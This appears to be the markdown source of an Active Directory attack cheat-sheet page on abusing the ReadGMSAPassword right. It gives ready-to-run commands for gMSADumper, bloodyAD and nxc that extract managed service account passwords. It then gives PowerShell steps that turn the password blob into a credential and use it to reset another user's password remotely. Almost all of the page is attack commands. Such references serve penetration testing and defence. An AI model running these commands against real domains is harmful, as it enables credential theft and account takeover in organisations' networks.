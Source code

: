 ```yaml
---
title: "ReadGMSAPassword"
date: 2024-7-23
tags: ["ReadGMSAPassword", "gMSADumper", "active driectory", "ad", "Windows"]
---
```


### Abuse #1: Read GMSAPassword (From Linux)

{{< tab set1 tab1 active >}}gMSADumper{{< /tab >}}
{{< tab set1 tab2 >}}BloodyAD{{< /tab >}}
{{< tab set1 tab3 >}}nxc{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```console
python3 gMSADumper.py -u <USER> -p '<PASSWORD>' -l <DC> -d <DOMAIN>
```

</div>

<small>*Ref: [gMSADumper](https://github.com/micahvandeusen/gMSADumper)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

<div>

```console
python3 bloodyAD.py -d <DOMAIN> -u <USER> -p '<PASSWORD>' --host <DC> get object <TARGET_OBJECT> --attr msDS-ManagedPassword
```

</div>

<small>*Ref: [bloodyAD](https://github.com/CravateRouge/bloodyAD)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

<div>

```console
nxc ldap -u <USER> -p '<PASSWORD>' -d <DOMAIN> <TARGET> --gmsa
```

</div>

{{< /tabcontent >}}

<br>

---

### Abuse #2: Save as Cred

{{< tab set2 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set2 tab1 >}}

<div>

```console
$gmsa = Get-ADServiceAccount -Identity <TARGET_NAME> -Properties 'msDS-ManagedPassword'
```

```console
$mp = $gmsa.'msDS-ManagedPassword'
```

```console
$password = (ConvertFrom-ADManagedPasswordBlob $mp).CurrentPassword
```

```console
$SecPass = (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
```

```console
$cred = New-Object System.Management.Automation.PSCredential <TARGET_NAME>, $SecPass
```

```console
# For example, change password of another target user
Invoke-Command -ComputerName <COMPUTER_NAME> -ScriptBlock {Set-ADAccountPassword -Identity <ANOTHER_TARGET_NAME> -reset -NewPassword (ConvertTo-SecureString -AsPlainText '<PASSWORD>' -force)} -Credential $cred
```

</div>

{{< /tabcontent >}}

<br>